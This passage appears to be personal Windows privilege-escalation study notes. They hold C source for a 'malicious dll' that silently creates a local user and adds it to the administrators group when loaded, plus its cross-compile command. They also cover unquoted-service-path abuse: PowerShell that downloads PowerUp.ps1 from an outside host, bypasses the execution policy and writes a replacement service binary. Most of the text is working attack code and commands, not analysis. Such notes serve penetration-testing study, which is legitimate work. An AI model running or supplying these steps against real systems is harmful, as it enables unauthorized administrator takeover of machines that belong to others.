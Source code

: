 malicious dll
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

for cross-compiling a dll we need to add the --shared flag
```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

### Unquoted Service Paths

We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.

use wmic to find unquoted service paths (only works in cmd)
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
can also use Powerup to identify unquoted services
```
iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
```

we can then use Powerup to create new user binary
```
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
Restart-Service GammaService
net user
net localgroup administrators
```
